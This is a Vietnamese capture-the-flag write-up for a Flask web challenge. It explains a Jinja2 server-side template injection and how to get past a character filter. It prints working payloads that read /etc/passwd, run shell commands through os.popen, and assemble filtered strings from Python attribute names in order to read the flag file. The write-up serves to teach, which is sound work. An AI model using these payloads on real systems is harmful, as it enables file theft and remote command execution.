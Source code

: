 
# Write-up EHC Hair Salon

* [Source code](https://github.com/5c4ll10n/FPTU-Hacking-CTF-2022/blob/main/Data/app.py)

Challenge này cho ta một trang web với giao diện như hình, có 1 box để input text và 1 nút submit

![image](https://user-images.githubusercontent.com/82231862/176257788-ee5d0482-a574-4cf0-9a51-598ba054eaa9.png)

Xem source code, ta thấy tác giả đã import module flask và sử dụng jinja2 để render ra page


![image](https://user-images.githubusercontent.com/82231862/176261133-3e96b201-903e-48e1-b799-4d563236713e.png)

![image](https://user-images.githubusercontent.com/82231862/176261062-61d6cf64-73d6-4908-a28a-f580cb08dc25.png)

Với web không filter user input, ta có thể dễ dàng inject code vào. Ví dụ:

* `{{2*3}}` sẽ được render ra là 6

Chúng ta còn có thể inject các đoạn code như [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) hoặc [remote code execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution). Ví dụ:

* `{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}` trả về nội dung file password
* `{{ cycler.__init__.__globals__.os.popen('id').read() }}` chạy lệnh `id` trong shell

Nhưng trong challenge này, input đã tác giả đã filter đi khá nhiều

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#" 
# filter đi string, số, flag, các char và 1 số lệnh cơ bản. Quan trong nhất là string và số để ta có thể tạo payload
...
       hair_type = request.form['hair'].lower()
       if '{' in hair_type and re.search(regex,hair_type):
            return render_template_string(error_page)
            
       if len(hair_type) > 256:
            return render_template_string(error_page)      
# giới hạn số kí tự tối đa có thể nhập vào
...
```

Không thể tạo payload trực tiếp, ta sẽ đi đường vòng bằng cách sử dụng các attribute và method có sẵn của python. Ví dụ:

* `().__doc__` sẽ trả về doc của tuple: `Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object.`
* `().__doc__[7]` sẽ trả về kí tự thứ 5 của string trên: `n`
* `().__str__.__name__` sẽ trả về `__str__`

Vì tác giả đã filter số nên ta sử dụng hàm `[..].__len__()` để trả về số phần tử của 1 mảng. Ví dụ:

* `[].__len__()` sẽ trả về số phần tử của mảng rỗng là: `0`
* `[[],[],[],[]].__len__()` sẽ trả về: `4`

Kết hợp 2 cái ta sẽ có được:

* `().__doc__[[[],[],[]].__len__()]` để trả về kí tự `l`
* `().__str__.__name__[[[],[]].__len__()]` để trả về kí tự `s`

Chúng ta thử inject payload bằng cách gọi [os.popen().read()](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread) để chạy lệnh `ls` trong shell

* `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}`  dùng dấu `+` để ghép chuỗi

Ta tìm được file tên là **flag** trong thư mục

![image](https://user-images.githubusercontent.com/82231862/176274512-1734c739-247a-47f2-bb79-28e18e829180.png)

Tiếp theo để mở file đó, ta sẽ dùng [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) để đọc file **flag**. Ta được payload như sau:

* `{{get_flashed_messages.__globals__.__builtins__.open(().__format__.__name__[[[],[]].__len__()]+().__le__.__name__[[[],[]].__len__()]+().__add__.__name__[[[],[]].__len__()]+().__ge__.__name__[[[],[]].__len__()]).read()}}`

Kết quả: 

![image](https://user-images.githubusercontent.com/82231862/176280207-17d6dfb8-d240-4d4f-9b21-48899a300f4b.png)

### FLAG: FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}
